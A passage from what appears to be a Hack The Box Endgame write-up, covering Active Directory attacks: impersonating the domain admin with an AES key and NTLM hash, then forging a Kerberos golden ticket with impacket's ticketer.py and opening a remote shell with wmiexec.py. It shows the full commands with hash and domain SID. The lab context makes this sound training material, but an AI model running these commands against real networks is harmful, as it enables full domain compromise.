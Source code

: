 [![get-kerberosaeskey.png](/assets/images/htb/endgames/rpg/get-kerberosaeskey.png)](/assets/images/htb/endgames/rpg/get-kerberosaeskey.png)
{:.center-image}

I can use this AES key alongside with `Passw0rd!` NTLM hash to impersonate sensitive account of the builtin domain admin.

[![rbcd-linux-bronze-bit.png](/assets/images/htb/endgames/rpg/rbcd-linux-bronze-bit.png)](/assets/images/htb/endgames/rpg/rbcd-linux-bronze-bit.png)
{:.center-image}

It's also worth mentioning that NTHash and AESKey can be computed right in the Python code if they are not provided within the `-hashes` and `-aesKey` arguments. I have tweaked impacket and made [this pull request](https://github.com/SecureAuthCorp/impacket/pull/1020) to get the appropriate values automatically.

## Going Golden

Now, when I have the krbtgt hash, I can generate golden ticket and use wmiexec.py to get a shell on Shinra. As no surprise, I do not have rights to read flag.txt because it is EFS encrypted ([1](https://blackpentesters.blogspot.com/2017/01/decrypting-efs-encrypted-files.html), [2](https://0xdf.gitlab.io/2019/08/17/htb-helpline-kali.html#read-roottxt)) with builtin administrator password.

```
$ ticketer.py -nthash 700ec7b74f596f84a8dfbce1a39ac66c -domain-sid S-1-5-21-2284550090-1208917427-1204316795 -domain roundsoft.local snovvcrash
$ export KRB5CCNAME=/root/htb/endgames/rpg/www/snovvcrash.ccache
$ proxychains4 -q wmiexec.py snovvcrash@shinra.roundsoft.local -no-pass -k
```
